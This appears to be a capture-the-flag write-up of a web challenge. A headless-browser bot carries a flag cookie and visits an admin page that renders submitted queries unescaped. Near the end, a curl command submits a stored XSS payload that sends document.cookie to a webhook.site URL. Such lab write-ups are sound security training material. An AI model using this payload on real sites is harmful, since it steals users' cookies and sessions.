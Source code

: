 Two things jump out, the first the /api/submit page requires a POST request, if its accepted it will run 'bot.readQueries(db);'. Next the /queries page is only accessible from 127.0.0.1.

Taking a look at views/bot.js, the flag will be provided as a cookie and the readQueries function when called will set a cookie and call the queries page.

```highlight
const cookies = [{
	'name': 'flag',
	'value': 'HTB{f4k3_fl4g_f0r_t3st1ng}'
}];


const readQueries = async (db) => {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();
		await page.goto('http://127.0.0.1:1337/');
		await page.setCookie(...cookies);
		await page.goto('http://127.0.0.1:1337/queries', {
			waitUntil: 'networkidle2'
		});
		await browser.close();
		await db.migrate();
};
```

Next reviewing the views/queries.hbs page, It looks like the page iterates through the queries.

```highlight
        <p class="pb-3">Welcome back, admin!</p>
        <div class="dash-frame">
            {{#each queries}}
            <p>{{{this.query}}}</p>
            {{else}}
            <p class="empty">No content</p>
            {{/each}}
        </div>
```

So putting all this together I think we can use XSS to grab the cookie by sending a XSS payload in the API submit function. The cookie (flag) will be sent and the readQueries function will call the queries page, the XSS payload will fire and give our flag.

First I tested sending a simple POST request using curl and got a response.

```highlight
└──╼ $curl -X POST http://{{DOCKERIP}}:{{DOCKERPORT}}/api/submit --header 'Content-Type: application/json' -d '{"query":"test"}'
{"message":"Your message is delivered successfully!"}
```

I used https://webhook.site to generate a URL I could use in the XSS payload. I then changed the payload to use a script tag to call the web hook site along with the cookie.

```highlight
└──╼ $curl -X POST {{DOCKERIP}}:{{DOCKERPORT}}/api/submit --header 'Content-Type: application/json' -d '{"query":"><script>window.location='\''https://webho
ok.site/{{REDACTED}}/?c='\''.concat(document.cookie)</script>"}'
{"message":"Your message is delivered successfully!"}
```

